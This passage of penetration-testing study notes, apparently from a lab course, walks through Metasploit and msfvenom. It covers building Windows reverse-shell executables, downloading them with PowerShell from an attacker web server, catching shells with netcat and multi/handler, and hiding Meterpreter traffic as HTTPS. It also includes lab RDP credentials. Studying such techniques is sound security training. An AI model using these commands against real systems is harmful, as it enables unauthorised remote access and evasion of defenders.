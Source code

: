 		- [Note:]
			- [If our target runs the Windows operating system, we need to escape the backslashes in the destination path with backslashes like "\\"]
	- let's use another 64-bit Linux Meterpreter payload
		- `exit`
		- `show payloads`
	- Use HTTPS connection meterpreter payload
			- As the traffic itself is encrypted with SSL/TLS, defenders will only obtain information about HTTPS requests
		- `set payload 10`
		- `show options`
		- `run`
		- will seem like regular HTTPS traffic
		- if they would check the address of the communication endpoint (our Kali machine in this example), they'd only get a _Not found_ page with HTTP code 404 in the browser.
	- We should always attempt to obtain an initial foothold with a raw TCP shell and then deploy a Meterpreter shell as soon as we have disabled or bypassed potential security technologies.
### Executable Payloads

*msfvenom*
- Example:
	- Create a malicious Windows binary starting a raw TCP reverse shell:
		- listing all payloads with **payloads** as argument for **-l**. In addition, we use **--platform** to specify the platform for the payload and **--arch** for the architecture.
			- `msfvenom -l payloads --platform windows --arch x64`
	- use the **-p** flag to set the payload, set **LHOST** and **LPORT** to assign the host and port for the reverse connection, **-f** to set the output format (**exe** in this case), and **-o** to specify the output file name:
		- ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe```
	- Execute malicious binary file
		- start a Netcat listener on port 443, Python3 web server on port 80, and connect to BRUTE2 via RDP with user _justin_ and password _SuperS3cure1337#_. Once we've connected over RDP, we can start PowerShell to transfer the file and execute it.
			- [kali] `nc -lvnp 443`
			- ```iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe```
			- `.\nonstaged.exe`
	- let's use a staged payload to do the same
		- ```msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o staged.exe ```
	- [Netcat can't handle staged payloads]
	- Use *mulit/handler*
		- `use mulit/handler`
	- Set *muli/handler* options to catch payload connection
		- ```set payload windows/x64/shell/reverse_tcp```
		- `show options`
		- ```set LHOST 192.168.119.2```
		- `set LPORT 443`
		- `run`
	- [For staged and other advanced payload types (such as Meterpreter), we must use multi/handler instead of tools like Netcat in order for the payload to work.]
	- exit our session and restart the listener with **run -j**.
		- `exit`
		- `run -j`
	- list the currently active jobs using **jobs**
		- `jobs`
	- As Metasploit created a new session for the incoming connection, we could now again interact with it with **sessions -i**

